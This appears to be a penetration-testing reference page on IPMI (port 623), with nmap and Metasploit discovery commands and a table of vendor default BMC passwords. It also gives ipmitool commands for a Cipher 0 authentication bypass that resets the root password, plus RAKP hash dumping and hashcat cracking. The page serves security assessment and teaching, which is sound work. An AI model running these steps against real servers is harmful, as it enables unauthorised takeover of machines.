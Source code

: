 ```yaml
---
title: 623 - Intelligent Platform Management Interface (IPMI)  
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - intelligent platform management interface
  - port 623
  - ipmi
  - bcm
---
```


# 623 - Intelligent Platform Management Interface (IPMI)

Intelligent Platform Management Interface (IPMI) is a system management tool that provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state.  It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell. IPMI can also be used for remote upgrades to systems without requiring physical access to the target host. IPMI communicates over port 623 UDP. IPMI is typically used in three ways:

- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure



## Footprinting ipmi

Many Baseboard Management Controllers (BMCs) (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

### Version

```shell-session
 sudo nmap -sU --script ipmi-version -p 623 <hostname/IP>
```

Metasploit scanner module [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/): this module discovers host information through IPMI Channel Auth probes:

```msfc
use auxiliary/scanner/ipmi/ipmi_version

show actions ...actions... msf 
set ACTION < action-name > msf 
show options 
# and set needed options
run
```

We might find BMCs where the administrators have not changed the default password:

|Product|Username|Password|
|---|---|---|
| Dell Remote Access Card (iDRAC, DRAC) |root|calvin|
|HP Integrated Lights Out (iLO)|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI (2.0) |ADMIN|ADMIN|
| IBM Integrated Management Module (IMM) | USERID | PASSW0RD (with a zero) |
| Fujitsu Integrated Remote Management Controller | admin | admin |
| Oracle/Sun Integrated Lights Out Manager (ILOM) | root | changeme |
| ASUS iKVM BMC | admin | admin |

These default passwords may gain us access to the web console or even command line access via SSH or Telnet.

### Vulnerability - IPMI Authentication Bypass via Cipher 0

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually **allows access with any password**. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations.

```msf
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Abuse this flaw with `ipmitool`:

```bash
# Install
apt-get install ipmitool 

# Use Cipher 0 to dump a list of users. With -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H $ip -U root -P root user list 

# Change the password of root
ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123 
```

### IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval

If default credentials do not work to access a BMC, we can turn to a flaw in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place.

[Metasploit module](metasploit.md):

This module identifies IPMI 2.0-compatible systems and attempts to retrieve the HMAC-SHA1 password hashes of default usernames. The hashes can be stored in a file using the OUTPUT_FILE option and then cracked using hmac_sha1_crack.rb in the tools subdirectory as well hashcat (cpu) 0.46 or newer using type 7300. 

```msf
use auxiliary/scanner/ipmi/ipmi_dumphashes

show actions

set ACTION < action-name >

show options
# set <options>

run
```

[Hashcat](hashcat.md): 

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```



## How does IPMI work

IPMI can monitor a range of different things such as system temperature, voltage, fan status, and power supplies. It can also be used for querying inventory information, reviewing hardware logs, and alerting using [SNMP](161-162-snmp.md). The host system can be powered off, but the IPMI module requires a power source and a LAN connection to work correctly.

Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band. To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus.


**Baseboard Management Controllers (BMCs)**: Systems that use the IPMI protocol.

>BMCs are built into many motherboards but can also be added to a system as a PCI card. Most servers either come with a BMC or support adding a BMC. The most common BMCs we often see during internal penetration tests are HP iLO, Dell DRAC, and Supermicro IPMI.

If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. Gaining access to a BMC is nearly equivalent to physical access to a system.

## Resources

- **hacktricks**: [https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)
